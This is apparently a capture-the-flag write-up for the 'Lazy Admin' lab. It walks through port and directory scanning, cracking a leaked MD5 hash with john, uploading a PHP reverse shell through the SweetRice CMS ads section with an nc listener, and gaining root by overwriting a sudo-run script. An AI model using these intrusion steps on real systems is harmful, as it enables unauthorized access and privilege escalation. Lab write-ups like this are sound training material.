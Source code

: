 # Lazy Admin

--------------------------------------------------------------------

**TOOLS USED**: nmap, gobuster, john, netecat

--------------------------------------------------------------------

## GIVEN INFO


**IP Address**: 10.10.113.196

--------------------------------------------------------------------

## PROCEDURE

### 1. RECON

-script SCRIPT: run specified scripts<br>
-sV: probe open ports to determine service/version info
```
nmap --script vuln -sV 10.10.113.196
```

![1.1](./imgs/1.1.png)

**EXPOSED PORT (SERVICE)**:<br>
    22 (ssh OpenSSH 7.2p2),<br>
    80 (http Apache httpd 2.4.18)

Enumerate hidden directories on webserver
```
gobuster dir -u http://10.10.113.196 -w /usr/share/dirb/wordlists/common.txt
```

![1.2](./imgs/1.2.png)

Page of Interest: /content

![1.3](./imgs/1.3.png)

Site using Basic-CMS SweetRice which is vulnerable to SQLi

Run dirb on /content
```
dirb http://10.10.113.196
```

![1.4](./imgs/1.4.png)

Pages of Interest: /content/as (login page), content/_themes/default/ (uploads), content/inc (uploads), content/js (index.html uses SweetRice.js)

Found file mysql_bakup_20191129023059-1.5.1.sql in http://10.10.113.196/content/inc/mysql_backup/

![1.5](./imgs/1.5.png)

**USERNAME**: manager<br>
PASSWORD HASH: 42f749ade7f9e195bf475f37a44cafcb

### 2. CRACK PASSWORD HASH

ID hash type
```
hash-identifier
```

![2.1](./imgs/2.1.png)

```
echo "42f749ade7f9e195bf475f37a44cafcb" > hash
john hash --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt
```

![2.2](./imgs/2.2.png)

**PASSWORD**: Password123

![2.3](./imgs/2.3.png)

SweetRice version 1.5.1

### 3. REVERSE SHELL

Get php rev shell frpm https://pentestmonkey.net/tools/web-shells/php-reverse-shell and edit IP

![3.1](./imgs/3.1.png)

Paste rev shell code into new ads code section

![3.2](./imgs/3.2.png)

Start listener
```
nc -lnvp 1234
```

Go to http://10.10.113.196/content/inc/ads/EXPLOIT.php to get connection

![3.3](./imgs/3.3.png)

![3.4](./imgs/3.4.png)

**USER FLAG**: THM{63e5bce9271952aad1113b6f1ac28a07}

Found MySQL login

![3.5](./imgs/3.5.png)

**USERNAME**: rice<br>
**PASSWORD**: randompass

Check privileges
```
sudo -l
```

![3.6](./imgs/3.6.png)

Can run backup.pl as root

### 5. PRIVILEGE ESCALATION

![4.1](./imgs/4.1.png)

Don't have permission to edit backup.pl


backup.pl runs script in /etc/copy.sh which we have permission to edit

![4.2](./imgs/4.2.png)

```
echo "#!/bin/bash\nbash" > /etc/copy.sh
sudo /usr/bin/perl /home/itguy/backup.pl
```

![4.3](./imgs/4.3.png)

**ROOT FLAG**: THM{6637f41d0177b6f37cb20d775124699f}